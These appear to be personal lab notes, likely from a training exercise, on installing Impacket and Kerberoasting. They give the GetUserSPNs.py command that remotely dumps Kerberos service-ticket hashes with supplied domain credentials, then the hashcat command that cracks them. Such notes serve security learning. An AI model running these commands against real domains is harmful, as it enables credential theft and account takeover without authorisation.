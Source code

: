 ```yaml
---
title: '2. Method 2: Impacket'
updated: 2023-04-01T21:25:14.0000000+04:00
created: 2023-04-01T21:23:19.0000000+04:00
---
```


2\. Method 2: Impacket
Saturday, April 1, 2023
9:23 PM
Installing Impacket:

Impacket Installation -

Impacket releases have been unstable since 0.9.20 I suggest getting an installation of Impacket \< 0.9.20

1.) cd /opt navigate to your preferred directory to save tools in

2.) download the precompiled package from <https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_19>

3.) cd Impacket-0.9.19 navigate to the impacket directory

4.) pip install . - this will install all needed dependencies

**<u>Kerberoasting w/ Impacket</u>**

1.) cd /usr/share/doc/python3-impacket/examples/

- navigate to where GetUserSPNs.py is located

2.) sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.186.103 -request

- this will dump the Kerberos hash for all kerberoastable accounts it can find on the target domain just like Rubeus does; however, this does not have to be on the targets machine and can be done remotely.

3.) hashcat -m 13100 -a 0 hash.txt Pass.txt - now crack that hash

